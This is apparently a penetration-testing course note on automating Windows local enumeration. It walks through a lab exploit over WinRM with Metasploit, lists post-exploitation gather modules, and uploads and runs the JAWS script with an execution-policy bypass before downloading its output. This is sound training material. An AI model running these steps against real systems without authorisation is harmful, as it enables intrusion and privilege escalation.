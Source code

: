 ```yaml
---
description: https://github.com/411Hall/JAWS
---
```


# Automating Windows Local Enumeration

In addition to performing local enumeration manually, we can also automate the process with the help of a few scripts and MSF modules.

While local enumeration techniques/commands are important to know, as a pentester, you will need to be time efficient. As a result, you will need to learn how to utilize various automated enumeration scripts.

In addition to automating the process of enumerating information like system information, users & groups etc, these automated enumeration scripts will also provide you with additional information regarding the target system like; privilege escalation vulnerabilties, locally stored passwords etc.

## Windows Local Enum Scripts

<mark style="color:red;">JAWS - Just Another Windows (Enum) Script</mark> - JAWS is PowerShell script designed to help penetration testers (and CTFers) quickly identify potential privilege escalation vectors on Windows systems. It is written using PowerShell 2.0 so 'should' run on every Windows version since Windows 7.

* GitHub Repo: https://github.com/411Hall/JAWS

## Practice Demo

Enumerate the target, exploit the WinRm (port 5985). In this case we already have the credentials to access.

Use the module <mark style="color:red;">expoit/windows/winrm/winrm\_script\_exec.</mark>

Set up the <mark style="color:blue;">RHOSTS, USERNAME,PASSWORD</mark> options.

<mark style="color:blue;">FORCEVBS</mark> to true.

We get a meterpreter 64 bit session with NT AUTHORITY \SYSTEM.

#### Enumerate mounted drives

* <mark style="color:yellow;">show\_mount</mark>

### Post Exploitation Modules

* <mark style="color:yellow;">post/windows/gather/win\_privs</mark>
* <mark style="color:yellow;">post/windodws/gather/enum\_logged\_on\_users</mark>
* <mark style="color:yellow;">post/windows/gather/checkvm</mark>
* <mark style="color:yellow;">post/windows/gather/enum\_applications</mark>
* <mark style="color:yellow;">post/windows/gather/enum\_computers</mark>
* <mark style="color:yellow;">post/windows/gather/enum\_patches</mark>
* <mark style="color:yellow;">post/windows/gather/enum\_shares</mark>

### Using JAWS Script

[https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

Clone the github repository or copy the script if you don't have internet connection.

Create a file with "<mark style="color:red;">.ps1</mark>" extension and save the script there.

#### Uploading script to target

Upload it to the "Temp" directory, if it doesn't exist create it at the base of the file system

* <mark style="color:yellow;">mkdir Temp</mark>
* <mark style="color:yellow;">upload 'pathatoscript'</mark>

<mark style="color:purple;">NOTE:</mark> To be able to run the powershell script run (It can take a couple minutes to run, and you might get an error which you can ignore):

* <mark style="color:yellow;">powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt</mark>

Download the file into the attacker machine

* <mark style="color:yellow;">download JAWS-Enum.txt</mark>

